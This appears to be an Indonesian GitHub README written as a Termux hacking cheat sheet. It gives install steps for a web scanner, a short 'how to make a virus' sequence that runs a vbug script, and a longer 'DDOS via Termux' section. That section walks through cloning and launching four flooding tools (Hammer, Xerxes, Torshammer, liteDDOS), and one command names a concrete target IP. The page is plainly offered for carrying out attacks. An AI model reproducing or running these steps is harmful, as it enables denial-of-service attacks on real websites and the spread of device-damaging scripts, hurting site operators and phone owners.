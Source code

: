 # R-Anonymous0205

TOOL TERMUX
Cara Install D-tect tool di android termux (command ) :

$ apt install git
$ apt install python2
$ git clone https://github.com/shawarkhanethicalhacker/D-TECT
$ ls
$ cd D-TECH
$ chmod +x d-tect.py
$ python2 d-tect.py
cara uninstall tool termux
rm -rf toolsnya

cara buat virus
cd /sdcard
cd vbug
ls
chmod vbug.py
chmod -v vbug.py
python2 vbug.py
irssi
/connet irc.freenode.net
/nick w3wandroid
/join #modol
_________________________
DDOS via Termux
1. Hammer
$ pkg update (tekan enter)
$ pkg upgrade (tekan enter)
$ pkg install python (tekan enter)
$ pkg install git (tekan enter)
$ git clone https://github.com/cyweb/hammer (tekan enter)
$ cd hammer (tekan enter)
$ python hammer.py (tekan enter)
$ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter) 104.27.146.125

2. Xerxes
$ apt install git
$ apt install clang
$ git clone https://github.com/zanyarjamal/xerxes
$ ls
$ cd xerxes
$ ls
$ clang xerxes.c -o xerxes
$ ls
$ ./xerxes (nama website) 80

3. Torshammer
$ pkg update
$ pkg install git
$ apt install tor
$ pkg install python2
$ git clone https://github.com/dotfighter/torshammer.git
$ ls
$ cd torshammer
$ python2 torshammer.py
4. liteDDOS
$ apt update
$ apt upgrade
$ pkg install git
$ pkg install python2
$ git clone https://github.com/4L13199/LITEDDOS